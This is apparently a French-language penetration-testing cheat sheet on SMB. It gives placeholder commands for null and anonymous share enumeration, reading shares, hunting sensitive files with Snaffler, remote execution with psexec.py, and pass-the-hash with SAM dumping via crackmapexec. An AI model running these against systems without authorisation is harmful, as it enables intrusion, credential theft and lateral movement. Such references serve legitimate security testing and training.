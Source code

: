 # SMB

### Enumération des partages réseau

* Lister les partages réseau d'une machine avec une session nulle (ni utilisateur, ni de mot de passe) :

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>

cme smb <IP>/<MASK> -u '' -p '' --shares
```

* Lister les partages réseau d'une machine de manière anonyme (utilisateur anonyme avec un mot de passe vide) :

```
smbmap -u 'anonyme' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u 'anonyme' -p '' -H <IP>

cme smb <IP>/<MASK> -u 'anonyme' -p '' --shares
```

* Lister les partages réseau d'une machine avec des identifiants :

```
# Avec un mot de passe
smbmap -u "username" -p "password" -H <IP>
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares

# Avec un hash
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

### Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

L'outil `snaffler` peut être utilisé pour automatiser la lecture des partages réseau. De plus, il remonte des informations potentiellement sensibles :&#x20;

```
Snaffler.exe -s -o Snaffler-result.txt
```

### Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

### Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

### Signatures SMB

```
cme smb <IP>
```
